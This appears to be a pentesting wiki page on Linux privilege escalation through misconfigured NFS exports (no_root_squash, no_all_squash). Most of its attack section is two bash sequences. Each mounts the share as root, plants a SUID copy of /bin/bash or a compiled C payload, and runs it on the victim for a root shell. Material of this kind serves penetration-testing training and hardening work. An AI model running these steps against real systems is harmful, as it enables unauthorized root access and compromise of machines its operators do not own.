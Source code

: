 # NFS no\_root\_squash/no\_all\_squash misconfig PE

Read the _ **/etc/exports** _ file, if you find some directory that is configured as **no\_root\_squash**, then you can **access** it from **as a client** and **write inside** that directory **as** if you were the local **root** of the machine.

**no\_root\_squash**: This option basically gives authority to the root user on the client to access files on the NFS server as root. And this can lead to serious security implications.

**no\_all\_squash:** This is similar to **no\_root\_squash** option but applies to **non-root users**. Imagine, you have a shell as nobody user; checked /etc/exports file; no\_all\_squash option is present; check /etc/passwd file; emulate a non-root user; create a suid file as that user (by mounting using nfs). Execute the suid as nobody user and become different user.

## Privilege Escalation

### Remote Exploit

If you have found this vulnerability, you can exploit it:

* **Mounting that directory** in a client machine, and **as root copying** inside the mounted folder the **/bin/bash** binary and giving it **SUID** rights, and **executing from the victim** machine that bash binary.

```bash
#Attacker, as root user
mkdir /tmp/pe
mount -t nfs <IP>:<SHARED_FOLDER> /tmp/pe
cd /tmp/pe
cp /bin/bash .
chmod +s bash

#Victim
cd <SHAREDD_FOLDER>
./bash -p #ROOT shell
```

* **Mounting that directory** in a client machine, and **as root copying** inside the mounted folder our C compiled payload that will abuse the SUID permission, give to it **SUID** rights, and **execute from the victim** machine that binary (you can find here some[ C SUID payloads](broken-reference)).

```bash
#Attacker, as root user
gcc payload.c -o payload
mkdir /tmp/pe
mount -t nfs <IP>:<SHARED_FOLDER> /tmp/pe
cd /tmp/pe
cp /tmp/payload .
chmod +s payload

#Victim
cd <SHAREDD_FOLDER>
./payload #ROOT shell
```

## Resources

****[**https://tryhackme.com/room/linuxprivesc**](https://tryhackme.com/room/linuxprivesc) **(Task 19)**

****[**https://haiderm.com/linux-privilege-escalation-using-weak-nfs-permissions/**](https://haiderm.com/linux-privilege-escalation-using-weak-nfs-permissions/)****\
****[**https://www.hackingarticles.in/linux-privilege-escalation-using-misconfigured-nfs/**](https://www.hackingarticles.in/linux-privilege-escalation-using-misconfigured-nfs/)****

****
